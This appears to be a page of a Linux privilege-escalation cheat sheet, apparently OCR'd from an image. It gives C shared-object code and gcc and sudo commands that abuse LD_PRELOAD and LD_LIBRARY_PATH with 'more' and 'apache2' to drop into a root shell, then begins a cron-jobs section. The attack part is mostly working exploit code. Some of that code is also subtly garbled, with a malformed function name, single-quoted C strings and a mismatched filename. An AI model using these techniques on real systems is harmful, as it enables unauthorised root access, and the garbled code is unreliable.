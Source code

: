 ### Preload escalation:
Create a shared object (preload.c):
```sh
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
    unsetenv('LD_PRELOAD');
    setresuid(0,0,0);
    system('/bin/bash -p');
}
```

Execute it against a program (more) & get root:
```sh
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
sudo LD_PRELOAD=/tmp/preload.so more

more
```

### Library path escalation:
Identify which shared  libraries are used by the program.
```sh
ldd /usr/sbin/apache2
```

Create a shared object with the same name as the listed libraries (libcrypt.so.1)

hijack.c
```sh
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv('LD_LIBRARY_PATH');
    setresuid(0,0,0);
    system('/bin/bash -p');
}
```

Gain root shell:
```sh
gcc -o /tmp/libcrypt.so.1 -shared -fPIC hjack.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

## Cron Jobs

### Weak file permissions:
If a file is scheduled to run periodically we may be able to exploit it.
